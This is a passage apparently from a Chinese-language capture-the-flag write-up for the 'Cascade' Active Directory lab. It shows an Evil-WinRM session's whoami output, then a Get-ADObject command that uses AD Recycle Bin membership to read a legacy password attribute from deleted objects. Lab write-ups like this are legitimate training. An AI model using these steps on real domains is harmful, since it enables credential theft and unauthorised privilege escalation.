 USER INFORMATION
----------------

User Name      SID
============== ==============================================
cascade\arksvc S-1-5-21-3332504370-1206983947-1165150453-1106


GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                            Attributes
=========================================== ================ ============================================== ===============================================================
Everyone                                    Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                               Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
CASCADE\Data Share                          Alias            S-1-5-21-3332504370-1206983947-1165150453-1138 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\IT                                  Alias            S-1-5-21-3332504370-1206983947-1165150453-1113 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\AD Recycle Bin                      Alias            S-1-5-21-3332504370-1206983947-1165150453-1119 Mandatory group, Enabled by default, Enabled group, Local Group
CASCADE\Remote Management Users             Alias            S-1-5-21-3332504370-1206983947-1165150453-1126 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication            Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Plus Mandatory Level Label            S-1-16-8448


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```



在这里我们主要留意我们在```AD Recycle Bin```组，这个组的用户可以阅读一些已删除的AD对象信息，见[这里](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-accounts-and-token-privileges)

使用命令
```
Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties *
```

我们只需要用户名和密码
```
*Evil-WinRM* PS C:\Users\arksvc\desktop> Get-ADObject -filter 'isDeleted -eq $true' -includeDeletedObjects -Properties * |select cn,DisplayName,cascadeLegacyPwd
